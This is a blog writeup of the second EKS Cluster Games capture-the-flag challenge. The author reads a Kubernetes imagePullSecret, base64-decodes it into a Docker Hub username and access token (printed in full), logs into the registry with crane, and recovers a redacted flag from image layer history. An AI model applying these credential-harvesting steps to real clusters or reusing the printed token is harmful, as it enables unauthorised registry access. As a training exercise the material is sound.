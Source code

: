```yaml
---
title: "EKS Cluster Games: Challenge 2"
date: 2023-12-05T11:28:47+02:00
draft: false
toc: true
series:
  - EKS-cluster-games
---
```


This is my writeup of how I solved the second challenge of the [EKS Cluster Games](https://eksclustergames.com/).

## Challenge 2 - Registry Hunt

The challenge hints that we should check the container registries. They also link to a rather long post (18 minute read) on [Hells KeyChain](https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql). It seemed long, so I skipped it initially.

> A thing we learned during our research: always check the container registries.

### Recon: Pods and secrets

We are told we have the following permissions

```json
{
  "secrets": ["get"],
  "pods": ["list", "get"]
}
```

So, we can't list secrets, but let's see which pods are running

```shell
$ kubectl get pods
NAME                    READY   STATUS    RESTARTS   AGE
database-pod-2c9b3a4e   1/1     Running   0          30h
```
Just a single pod. Does it have anything interesting?

```javascript
$ k get pod database-pod-2c9b3a4e -o json
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "annotations": {
            "kubernetes.io/psp": "eks.privileged",
            [...]
        },
        [...]
    },
    "spec": {
        "containers": [
            {
                "image": "eksclustergames/base_ext_image",
                "imagePullPolicy": "Always",
                [...]
                "volumeMounts": [
                    {
                        "mountPath": "/var/run/secrets/kubernetes.io/serviceaccount",
                        "name": "kube-api-access-cq4m2",
                        "readOnly": true
                    }
                ]
            }
        ],
        [...]
        "imagePullSecrets": [
            {
                "name": "registry-pull-secrets-780bab1d"
            }
        ],
        [...]
        "volumes": [
            {
                "name": "kube-api-access-cq4m2",
                [...]
            }
        ]
    },
    "status": {
        [...]
        "containerStatuses": [
            {
                "containerID": "containerd://b427307b7f428bcf6a50bb40ebef194ba358f77dbdb3e7025f46be02b922f5af",
                "image": "docker.io/eksclustergames/base_ext_image:latest",
                "imageID": "docker.io/eksclustergames/base_ext_image@sha256:a17a9428af1cc25f2158dfba0fe3662cad25b7627b09bf24a915a70831d82623",
                [...]
            }
        ],
        [...]
    }
}
```

I noted a couple of things

- Is it running `eks.privileged`
- It always pulls the image
- It has an `imagePullSecret` named `registry-pull-secrets-780bab1d`
- It has a volume mounted called `kube-api-access-cq4m2`

### Looking into the secrets

Can we get the `kube-api-access-cq4m2` secret? No, it seems not (it later hit me that it was a volume, not a secret)

```
$ k get secret kube-api-access-cq4m2
Error from server (NotFound): secrets "kube-api-access-cq4m2" not found
```

What about the `imagePullSecret`?

```sh
$ k get secret registry-pull-secrets-780bab1d -o json
{
    "apiVersion": "v1",
    "data": {
        ".dockerconfigjson": "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19"
    },
    "kind": "Secret",
    "metadata": {
        "annotations": {
            "pulumi.com/autonamed": "true"
        },
        "creationTimestamp": "2023-11-01T13:31:29Z",
        "name": "registry-pull-secrets-780bab1d",
        "namespace": "challenge2",
        "resourceVersion": "897340",
        "uid": "1348531e-57ff-42df-b074-d9ecd566e18b"
    },
    "type": "kubernetes.io/dockerconfigjson"
}
```

Success, it had a `.dockerconfigjson`! This seemed to be credentials for the registry at `index.docker.io/v1/`

```sh
$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
$ echo ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw== | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo%
```
This might be 1 of the secrets which the Hells KeyChain refers to: the private container registry password.

### Getting stuck

What next? After hitting a dead end with the `kube-api-access-cq4m2` I started reading the post on Hells KeyChain.
I found they've found an `imagePullSecret` in the same manner as I.

They also taled about secrets being leaked in Docker layers. Let us look into that.

### Peeling off the layers

The challenge page mentioned a utility called `crane` was installed. So I started toying with it.

I found I could log in to the container registry using `crane auth login docker.io -u eksclustergames -p thepasswordfromabove`, and I was able to interact with the registry

```sh
$ crane ls eksclustergames/base_ext_image
latest
```

I tried listing other images, but there were none. I then searched for a way to get info on the layers, and found that `crane config` would provide me the history of an image

```sh
crane config eksclustergames/base_ext_image
{
    "architecture": "amd64",
    "config": {
        "Env": [
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
        ],
        "Cmd": [
            "/bin/sleep",
            "3133337"
        ],
        "ArgsEscaped": true,
        "OnBuild": null
    },
    "created": "2023-11-01T13:32:18.920734382Z",
    "history": [
        {
            "created": "2023-07-18T23:19:33.538571854Z",
            "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
        },
        {
            "created": "2023-07-18T23:19:33.655005962Z",
            "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
            "empty_layer": true
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "RUN sh -c echo 'wiz_eks_challenge{REDACTED}' > /flag.txt # buildkit",
            "comment": "buildkit.dockerfile.v0"
        },
        {
            "created": "2023-11-01T13:32:18.920734382Z",
            "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
            "comment": "buildkit.dockerfile.v0",
            "empty_layer": true
        }
    ],
    "os": "linux",
    "rootfs": {
        "type": "layers",
        "diff_ids": [
            "sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f",
            "sha256:a70cef1cb742e242b33cc21f949af6dc7e59b6ea3ce595c61c179c3be0e5d432"
        ]
    }
}
```

and there is was, the command that created the layer containing the flag: `wiz_eks_challenge{REDACTED}` :rocket:


### Could it have been simpler?

Would we have been able to do this without the imagePullSecret? No, it seems not

```sh
$ crane auth logout docker.io
2023/11/02 21:05:35 logged out via /home/user/.docker/config.json
$ crane config eksclustergames/base_ext_image
Error: fetching config: reading image "eksclustergames/base_ext_image": GET https://index.docker.io/v2/eksclustergames/base_ext_image/manifests/latest: UNAUTHORIZED: authentication required; [map[Action:pull Class: Name:eksclustergames/base_ext_image Type:repository]]
```

